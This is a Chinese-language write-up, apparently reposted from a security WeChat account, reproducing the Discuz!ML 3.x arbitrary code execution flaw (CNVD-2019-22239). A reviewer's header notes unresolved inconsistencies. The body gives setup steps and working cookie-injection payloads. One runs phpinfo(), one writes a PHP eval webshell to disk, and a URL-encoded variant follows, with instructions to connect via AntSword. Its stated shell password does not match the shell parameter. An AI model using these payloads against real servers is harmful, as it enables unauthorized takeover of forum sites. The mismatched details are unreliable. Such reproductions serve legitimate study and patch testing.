







## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：ML3.x, tested3.4/Windows2008/XAMPP; site-specific cookie prefix; PHP-executable writable directory

- **凭据与会话边界（1）**：Cookie prefix called random token though it is namespace, not auth token。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（2）**：Unencoded shell parameter shell but final connection password webshell; mismatch。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（3）**：Encoded payload placeholders{1}/{2} not explained; bare language versus prefixed cookie must be consistent。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **来源与引用处置（4）**：Precise CNVD/code/research sources; promotional footer。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Discuz!ML 3.x 任意代码执行漏洞复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4C09XXliEAf6zovi5DRb7w)

漏洞信息
----

<table width="NaN"><thead><tr><th>info</th><th>desc</th></tr></thead><tbody><tr><td height="32">CNVD-ID</td><td height="32">CNVD-2019-22239</td></tr><tr><td height="32">公开日期</td><td height="32">2019-07-12</td></tr><tr><td height="32">危害级别</td><td height="32">高</td></tr><tr><td height="32">影响产品</td><td height="32">Discuz! Discuz!ML 3.x</td></tr><tr><td height="32">漏洞描述</td><td height="32">Discuz!ML 是基于 Discuz!X 引擎的一款多语种开源代码社区系统。Discuz!ML 3.x 存在任意代码执行漏洞，攻击者可利用该漏洞执行任意代码。</td></tr><tr><td height="32">漏洞类型</td><td height="32">通用型漏洞</td></tr><tr><td height="32">参考链接</td><td height="32">https://www.cnvd.org.cn/flaw/show/CNVD-2019-22239</td></tr><tr><td height="32">漏洞 poc</td><td height="32">见下文</td></tr></tbody></table>

环境搭建
----

### 基础环境

*   网站环境：xampp
    
*   DisCuz 版本：3.4
    
*   服务器版本：win 2008
    
*   代码下载地址：https://github.com/leohdr/discuz.ml
    

### 安装

*   将源码复制到网站根目录下
    



*   在网页输入地址打开安装界面，然后一直下一步，中间记得填一下数据库账号密码
    



*   安装成功以后如下
    



测试
--

*   _如果想学习代码分析，可移步 freebuf 学习 https://www.freebuf.com/vuls/208457.html_
    
*   打开 burp 抓取数据包
    



*   漏洞点在 language 参数处，其中 language 参数前的`f8ZX_2132_`为随机生成的 token，每个网站不同，先使用`phpinfo()`测试漏洞是否存在
    



*   测试 payload 为：`f8ZX_2132_language=sc'.phpinfo().'`
    
*   已经可以执行 php 代码也可以写入 webshell 或者 php 调用系统命令执行，这里写 webshell，测试 payload 如下：
    

```
language=sc'.file_put_contents('webshell.php',urldecode('<?php @eval($_POST["shell"]);?>')).'
```

*   使用 burp 时，需要进行 url 编码才可以，最终 payload 为：
    

```
language=sc%27.file_put_contents%28%27{1}.php%27%2Curldecode%28%27%253c%253fphp%2520@eval%28%2524_%2550%254F%2553%2554%255b%2522{2}%2522%255d%29%253b%253f%253e%27%29%29.%27
```

*   结果如下
    



*   webshell 地址为：`http://xx.xx.xx.xx/upload/webshell.php`，密码为：webshell。使用蚁剑连接即可
    



  

secteam 公众号

  

微信搜索 : secteam

长按识别二维码关注


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
